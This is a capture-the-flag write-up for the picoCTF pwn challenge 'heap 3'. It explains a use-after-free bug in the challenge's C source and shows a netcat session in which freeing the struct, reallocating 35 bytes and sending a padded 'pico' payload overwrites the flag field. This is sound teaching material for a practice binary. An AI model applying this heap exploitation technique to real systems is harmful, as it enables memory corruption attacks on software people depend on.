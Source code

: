 # [Pwn] heap 3

## 💡 Challenge Description

> *This program mishandles memory. Can you exploit it to get the flag?*

## 🔒 ELF Properties

```
rydzze ~ ❯ file chall
chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2,
BuildID[sha1]=3fa64145c4efbd5a267e0525f58e294fba23ad2f, for GNU/Linux 3.2.0, with debug_info, not stripped

rydzze ~ ❯ checksec --file=chall
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   52 Symbols        No    0               2               chall
```

## ✨ Walkthrough

```c
void check_win() {
  if(!strcmp(x->flag, "pico")) {
    printf("YOU WIN!!11!!\n");

    // Print flag
    char buf[FLAGSIZE_MAX];
    FILE *fd = fopen("flag.txt", "r");
    fgets(buf, FLAGSIZE_MAX, fd);
    printf("%s\n", buf);
    fflush(stdout);

    exit(0);

  } else {
    printf("No flage for u :(\n");
    fflush(stdout);
  }
  // Call function in struct
}
```

For this challenge, we need to change the value of the `flag` variable inside `x` to `pico`, so that when we call the `check_win` function, it will print out the flag. With that in mind, let’s investigate the code block by block.

```c
// Create struct
typedef struct {
  char a[10];
  char b[10];
  char c[10];
  char flag[5];
} object;

int num_allocs;
object *x;
```

At first, the program defines a struct type named `object`, which contains four array variables. Hence, we can conclude that the size of the `object` struct is 35 bytes. After that, it will declare a pointer variable `x` that can point to a struct of type `object`.

```c
// Create a struct
void init() {

    printf("\nfreed but still in use\nnow memory untracked\ndo you smell the bug?\n");
    fflush(stdout);

    x = malloc(sizeof(object));
    strncpy(x->flag, "bico", 5);
}
```

Next, the program allocates memory for the pointer variable `x` with the size of the `object` struct, and then copies 5 bytes into the `flag` field, storing the value `bico`.

```c
void alloc_object() {
    printf("Size of object allocation: ");
    fflush(stdout);
    int size = 0;
    scanf("%d", &size);
    char* alloc = malloc(size);
    printf("Data for flag: ");
    fflush(stdout);
    scanf("%s", alloc);
}

void free_memory() {
    free(x);
}
```

Now, we are introduced to two new functions which are `alloc_object` and `free_memory`.

`alloc_object` allocates a user-specified amount of memory and then takes input to fill it, without checking whether the input size fits safely.

`free_memory` deallocates memory by freeing the space pointed to by `x`.

## 🛠 Exploit

The vulnerability is known as a **Use-After-Free (UAF)**. To obtain the flag, we need to:

1. Free the memory of `x`, making its chunk available for reuse.
2. Allocate a new object of the same size, which will likely be placed in the same memory location as the freed `x`.
3. Provide the input `pico`, so it overwrites the `flag` field inside `x`.

If we don’t free the memory, the new allocation will use a different memory location instead of reusing `x`’s memory.”

```
rydzze ~ ❯ nc tethys.picoctf.net 59127

freed but still in use
now memory untracked
do you smell the bug?

1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice: 5

1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice: 2
Size of object allocation: 35
Data for flag: AAAAAAAAAABBBBBBBBBBCCCCCCCCCCpico

1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice: 3


x = pico


1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice: 4
YOU WIN!!11!!
picoCTF{REDACTED}
```